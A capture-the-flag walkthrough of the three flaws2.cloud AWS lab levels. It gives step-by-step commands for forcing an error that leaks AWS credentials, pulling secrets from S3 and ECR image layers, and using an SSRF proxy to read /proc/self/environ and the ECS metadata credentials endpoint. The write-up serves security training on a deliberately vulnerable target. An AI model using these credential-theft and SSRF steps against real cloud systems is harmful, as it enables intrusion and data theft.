 <h2>All 3 challenges for this lab can be found at http://flaws2.cloud/ </h2>

<h3>Level 1 Target: http://level1.flaws2.cloud</h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/a39cf547-d5f9-43ae-8101-e4cf632d9398)

Step 1: Often developers will dump environmental variables when error conditions occur in order to help them debug problems.  To test if this occurs here we will capture the ‘Submit’ request in burp suite and change it to a non-number value (since the website only allows numbers to be submitted).  This will cause an error that leaks aws credentials:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/2db0f698-f866-40f7-bdda-7c565ead2244)

Step 2: Configure a new aws profile with these credentials: aws configure –profile flawscloud
When prompted, enter the access key and secret access key.  

Step 3: Open the profile we just configured for flawscloud (this can be found in ~/.aws/credentials) and add the aws_session_token.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c558ab12-9e40-41b0-8fd8-7c3eb9626874)

Step 4: Now that we have credentials for an aws account, let’s check what this level1.flaws2.cloud  is: nslookup level1.flaws2.cloud <br>
This returns 52.217.139.141

Step 5: Run the command: nslookup 52.217.139.141 <br>
This returns s3-website-us-east-1.amazonaws.com  

Step 6: Now that we know this is a s3 bucket, let’s try to list the s3 bucket: aws --profile flawscloud s3 ls s3://level1.flaws2.cloud  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1c463ab7-c7c9-4704-bad6-7d11db1756b7)

This returns a list of the s3 bucket. 

Step 7: Copy the secret to our pc: aws --profile flawscloud s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html . <br>
Open the secret to solve level1.  

---
<h3>Level 2 Target http://container.target.flaws2.cloud </h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/19d9da2e-a4d0-40de-a4f8-6ff08f60d1f8)

Step 1: Visiting the target shows we need credentials to login:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c0363893-ba65-478f-b322-56d656f43f28)

Step 2: Since we are told that this is an ecr and we are told the name of the ecr, let's check if we can list any images on the ecr: aws --profile flawscloud ecr list-images --repository-name level2

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/4b414d3f-272c-45c6-9efb-3d18eb8fa01d)

Step 3: To list more image digests we will need to get the registryid which is the account number of the user.  To get this, run: aws --profile flawscloud sts get-caller-identity

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/af2a981b-db78-4d9c-8d4d-d4f1b84574b6)

Step 4: Get a list of image digests: aws --profile flawscloud ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest |jq '.images[].imageManifest | fromjson'

This has a bunch of different digests.  One of the digests in the output is shown in the below screenshot:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/ee2708d5-fa0d-4b79-b95c-926b96517e72)

Step 5: Check each one of the digests with the following command: aws --profile flawscloud ecr get-download-url-for-layer --repository-name level2 --registry-id 653711331788 --layer-digest "sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621”

The output for this shows a url.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/98559782-b928-430a-968e-f8fa0098d7f6)

Step 6: Visiting the long url shown downloads a file.  Searching through the file we find credentials. 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/5e01336c-e8dc-4f59-9341-704d7cfb2e0f)

Step 7: Use those credentials to login to http://container.target.flaws2.cloud which completes level 2.  

---
<h3>Level 3 Target: </h3>
![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1d1bf7f8-33d8-4170-a2ef-7ada181f2eef)

Step 1: Seems like the container webserver directs the site to whatever is given after /proxy/.  Based on this, try to access local files: http://container.target.flaws2.cloud/proxy/file:///proc/self/environ 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/79c271c0-4c62-4be8-85ac-f0195618df5e)

Step 2: Visit the path’s found on /proc/self/environ: http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/cd0f067f-f28a-4f8a-ba76-0e697ec1d289

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/04f04468-2815-4f67-9073-4a6a46775bbc)

This path reveals aws credentials.

Step 3: Configure a new profile user with the found aws credentials: aws configure --profile flawscloud2 <br>
Add the credentials when prompted.

Step 4: Add the aws session token manually into this user profile (found in ~/.aws/credentials): 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/e685934c-c56c-4345-a50b-43fbf3ecf2a4)

Step 5: Check if we can find any s3 buckets for this user: aws --profile flawscloud2 s3 ls   

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/3820a3aa-4406-4a9b-9d9b-dee55aa1d478)

Navigate to the endpoint found on the s3 bucket to complete level 3: http://the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud/ 
